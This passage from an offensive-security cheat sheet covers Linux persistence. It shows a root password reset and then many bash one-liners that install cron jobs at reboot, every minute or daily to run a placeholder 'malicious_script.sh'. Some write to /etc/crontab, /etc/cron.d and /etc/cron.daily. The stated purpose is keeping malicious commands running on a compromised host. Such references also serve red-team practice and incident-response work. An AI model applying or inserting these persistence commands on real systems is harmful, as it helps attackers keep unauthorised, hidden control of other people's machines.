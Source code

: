 #### Set Root Passwords
- **Change Root Password:** If compromised.
	```bash
	echo "root:<new_password>" | sudo chpasswd
	```

# Cron Job Persistence
Cron jobs allow tasks to run automatically at scheduled intervals. Modifying or creating new cron jobs for persistence can ensure that malicious scripts or commands execute at regular intervals or system boot.

#### View Cron Jobs
- **View Existing Cron Jobs**
	- `crontab -l`: Lists cron jobs for the current user.
	- `ls /etc/cron.*`: Lists hourly, daily, weekly, and monthly cron jobs.
	- `cat /etc/crontab`: Displays the system-wide cron jobs.
	- `cat /var/spool/cron/crontabs/*`: Lists cron jobs for all users (requires root).

#### Add Persistent Cron Jobs
- **Create User Cron Job:**
	```bash
	(crontab -l 2>/dev/null; echo "@reboot /path/to/malicious_script.sh") | crontab -
	```
- **Create Root Cron Job:**
	```bash
	sudo bash -c 'echo "@reboot /path/to/malicious_script.sh" >> /etc/crontab'
	```
- **Schedule Cron Job, Run Every Minute:**
	```bash
	(crontab -l 2>/dev/null; echo "* * * * * /path/to/malicious_script.sh") | crontab -
	```
- **Schedule Cron Job, Run Every 5 Minutes, Executing a Script:**
	```bash
	echo "*/5 * * * * /path/to/malicious_script.sh" | crontab -
	```
- **Schedule Cron Job, Run Every System Reboot for Current User:**
	```bash
	echo "@reboot /path/to/malicious_script.sh" | crontab -
	```

#### Modify System Cron Jobs
- **Create System-Wide Cron Jobs, Run Every System Reboot:**
	```bash
	echo "@reboot /path/to/malicious_script" >> /etc/crontab
	echo "@reboot /path/to/malicious_script" >> /etc/cron.d/root_job
	```
- **Inject Code into `/etc/cron.daily`:**
	```bash
	sudo bash -c 'echo "/path/to/malicious_script.sh" > /etc/cron.daily/malicious_script'
	sudo chmod +x /etc/cron.daily/malicious_script
	```
